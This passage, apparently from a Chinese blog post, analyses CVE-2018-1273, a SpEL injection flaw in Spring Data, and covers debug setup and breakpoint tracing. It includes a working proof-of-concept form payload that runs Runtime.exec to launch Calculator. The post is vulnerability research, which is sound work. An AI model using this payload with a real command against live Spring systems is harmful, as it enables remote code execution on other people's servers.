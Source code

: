 ```java
    }
}
```

运行该例子将会打开计算器

![Jcve1](/img/in-post/cve_2018_1273/图片 2.png)



简单说明SpEl注入原理，接下来进行分析

### 调试环境搭建

**IDE**: intellj Idea

**Demo**:下载[spring-data-examples](https://github.com/spring-projects/spring-data-examples)

在idea中直接运行 **web/example**：

![Jcve1](/img/in-post/cve_2018_1273/图片 3.png)

### 分析过程

可以直接使用SpEL表达式注入的Payload进行测试

**Poc:**

```java
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator")]=tbag&password=tbag&repeatedPassword=tabg
```

可以看到成功执行，说明POC可用

![Jcve1](/img/in-post/cve_2018_1273/图片 4.png)

接下来进行断点调试，因为payload是在post数据中的，看一下代码，决定在`@RequestMapping(method = RequestMethod.POST)`注解的方法中尝试下断点，该注解用于接受post请求传递过来的数据

```java
@RequestMapping(method = RequestMethod.POST)

         public Objectregister(UserForm userForm, BindingResult binding, Model model)

```

在开头下好断点之后，然后在浏览器中请求数据。Debug调试。方法刚开始命令就执行了。难道poc在通过这里之前就已经执行了吗。所以这个点一开始就被我排除了，这也是较为坑爹的地方。后面会讲到

![Jcve1](/img/in-post/cve_2018_1273/图片 5.png)

换个断点试试。看到了一个`@ModelAttribute`注解，该注解下面标明的方法，会在所有Controler方法执行之前率先执行。所以决定把断点下在这里

```java
java @ModelAttribute("users")//在ModelAttrribute会先去其它执行方法先执行
     publicPage<User> users(@PageableDefault(size = 5) Pageable pageable) {
              returnuserManagement.findAll(pageable);
     }
```

